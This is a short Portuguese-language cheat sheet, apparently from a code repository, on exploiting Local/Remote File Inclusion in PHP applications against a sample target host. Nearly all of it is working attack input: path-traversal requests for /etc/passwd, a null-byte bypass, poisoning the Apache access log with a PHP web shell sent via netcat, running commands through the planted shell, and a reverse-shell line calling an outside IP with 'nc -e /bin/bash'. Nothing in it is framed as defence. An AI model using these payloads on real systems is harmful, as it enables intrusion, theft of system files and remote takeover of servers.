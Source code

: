 # LFI/RFI Local/Remote File Include

Procure no site algum link que chame alguma página com o parâmetro GET:  
``rh.businesscorp.com.br/index.php?page=login``

Troque o parâmetro do GET por arquivos sensíveis do servidor:  
``rh.businesscorp.com.br/index.php?page=/../../etc/passwd``  

Caso a aplicação utilize a adição de extenção logo depois do arquivo, será necessário testar com **nullbyte**.*

``rh.businesscorp.com.br/index.php?page=/../../etc/passwd%00``  
**nullbyte = %00**

Podemos carregar o access.log do servidor, normalmente em:
**/var/log/apache2/access.log**  
``rh.businesscorp.com.br/index.php?page=/../../var/log/apache2/access.log%00``

Com isso iremos infectar o access.log com um código malicioso:

```bash
nc -v rh.businesscorp.com.br 80 < "<?php system($_GET['cmd']); ?>"
```

Agora basta informar um parâmetro para o cmd:  
``rh.businesscorp.com.br/index.php?cmd=ls -la&page=/../../var/log/apache2/access.log%00``  

``rh.businesscorp.com.br/index.php?cmd=uname -a&page=/../../var/log/apache2/access.log%00``

``rh.businesscorp.com.br/index.php?cmd=nc 192.168.0.101 443 -e /bin/bash&page=/../../var/log/apache2/access.log%00``
